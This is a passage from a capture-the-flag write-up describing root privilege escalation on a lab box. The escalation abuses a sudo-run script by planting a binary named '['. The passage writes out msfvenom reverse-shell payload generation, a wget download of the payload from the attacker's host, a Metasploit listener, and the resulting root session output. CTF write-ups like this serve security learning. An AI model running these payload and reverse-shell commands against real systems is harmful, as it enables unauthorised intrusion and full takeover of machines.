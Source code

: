 The trick is how to use that without write permissions. 

If you type `enable` into the terminal it lists the available options, and `[` is one of them. Can that be used somehow? 

`[` is part of the shell that can be enabled and disabled. The rest `# ]` is not and is ignored by the `enable -n [ # ]` command. So, we just need to focus on the  `[`

We spent hours trying everything we could think of until a team member finally figured out how to root the box.

Create a reverse shell in Meterpreter 
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=YOURVPNIP LPORT=4445 -f elf -o payload2.elf`

Start a python web server from the directory where you have the payload2.elf file (or use fancy ssh/scp file transfer)
`python -m http.server`

Download the file from the  remote host
`wget http://YOURVPNIP:8000/payload2.elf`

Make the payload executable
`chmod +x payload2.elf`

Name the payload2.elf file `[`
`cp payload2.elf \[`

Launch the listener on your local system
`msfconsole -x "use /exploit/multi/handler;set payload linux/x64/meterpreter/reverse_tcp;set LHOST YOURVPNIP;set LPORT 4445;exploit;"`

Run the check.sh script on the VM
`sudo /usr/bin/bash /opt/check.sh`

Now check your listener
```
*] Meterpreter session 2 opened (10.6.31.150:4445 -> 10.10.142.29:35550) at 2023-12-22 15:01:01 -0600

meterpreter > getuid
Server username: root
```

**We are root!**

Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2023-12-22 13:44:07 -0600  .bash_history
100644/rw-r--r--  3106  fil   2019-12-05 08:39:21 -0600  .bashrc
040700/rwx------  4096  dir   2023-05-01 20:13:34 -0500  .cache
020666/rw-rw-rw-  0     cha   2023-12-22 13:44:07 -0600  .mysql_history
100644/rw-r--r--  161   fil   2019-12-05 08:39:21 -0600  .profile
040700/rwx------  4096  dir   2023-12-13 11:27:12 -0600  .ssh
100600/rw-------  0     fil   2023-12-13 12:15:54 -0600  .viminfo
040755/rwxr-xr-x  4096  dir   2023-11-02 10:39:57 -0500  frosteau
100640/rw-r-----  38    fil   2023-10-19 01:40:20 -0500  root.txt
040700/rwx------  4096  dir   2023-03-27 18:25:12 -0500  snap
100640/rw-r-----  43    fil   2023-12-13 11:24:39 -0600  yetikey4.txt
